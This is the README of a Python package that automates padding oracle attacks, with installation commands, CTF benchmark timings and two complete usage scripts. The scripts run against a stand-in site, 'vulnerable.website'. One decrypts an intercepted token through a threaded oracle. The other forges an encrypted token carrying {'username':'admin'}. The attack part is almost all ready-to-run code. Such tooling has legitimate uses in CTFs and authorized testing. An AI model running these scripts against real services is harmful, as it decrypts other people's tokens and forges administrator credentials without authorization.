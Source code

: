 
# Padding Oracle Python Automation Script 

![python-package-badge](https://github.com/djosix/padding_oracle.py/actions/workflows/python-package.yml/badge.svg)

The padding_oracle.py is a highly efficient, threaded [padding oracle](https://en.wikipedia.org/wiki/Padding_oracle_attack) attack automation script, specifically developed for Python 3.

## Installation

You can install the package using either PyPI or directly from GitHub:

**Via PyPI:**
```shell
pip3 install -U padding_oracle
```

**Via GitHub:**
```shell
pip3 install -U git+https://github.com/djosix/padding_oracle.py.git
```

## Performance Metrics

Performance of padding_oracle.py was evaluated using [0x09] Cathub Party from EDU-CTF:

| Number of Request Threads | Time Taken |
|-----------------|----------------|
| 1               | 17m 43s        |
| 4               | 5m 23s         |
| 16              | 1m 20s         |
| 64              | 56s            |

## How to Use 
### Decryption
To illustrate the usage, consider an example of testing `https://vulnerable.website/api/?token=M9I2K9mZxzRUvyMkFRebeQzrCaMta83eAE72lMxzg94%3D`:

```python
from padding_oracle import padding_oracle, base64_encode, base64_decode
import requests

sess = requests.Session() # use connection pool
url = 'https://vulnerable.website/api/'

def oracle(ciphertext: bytes):
    resp = sess.get(url, params={'token': base64_encode(ciphertext)})

    if 'failed' in resp.text:
        return False # e.g. token decryption failed
    elif 'success' in resp.text:
        return True
    else:
        raise RuntimeError('unexpected behavior')

ciphertext: bytes = base64_decode('M9I2K9mZxzRUvyMkFRebeQzrCaMta83eAE72lMxzg94=')
# len(ciphertext) is 32
# possibly be "IV + cipher block" if block size is 16

assert len(ciphertext) % 16 == 0

plaintext = padding_oracle(
    ciphertext,
    block_size = 16,
    oracle = oracle,
    num_threads = 16,
)
```
### Encryption
To illustrate the usage, consider an example of forging a token for`https://vulnerable.website/api/?token=<.....>`:

```python
from padding_oracle import padding_oracle, base64_encode, base64_decode
import requests

sess = requests.Session() # use connection pool
url = 'https://vulnerable.website/api/'

def oracle(ciphertext: bytes):
    resp = sess.get(url, params={'token': base64_encode(ciphertext)})

    if 'failed' in resp.text:
        return False # e.g. token decryption failed
    elif 'success' in resp.text:
        return True
    else:
        raise RuntimeError('unexpected behavior')

def pad(data: bytes, block_size=16):
    pad_value = block_size - len(data) % block_size
    return data + bytearray([pad_value for i in range(pad_value)])

payload: bytes =b"{'username':'admin'}"
payload = pad(payload)
assert len(payload) % 16 == 0

ciphertext = padding_oracle(
    payload,
    block_size = 16,
    oracle = oracle,
    num_threads = 16,
    mode = 'encrypt'
)
```

In addition, the package provides PHP-like encoding/decoding functions:

```python
from padding_oracle.encoding import (
    urlencode,
    urldecode,
    base64_encode,
    base64_decode,
)
```

## License

Padding Oracle Python Automation Script is distributed under the terms of the MIT license.

<!-- PiuPiuPiu -->
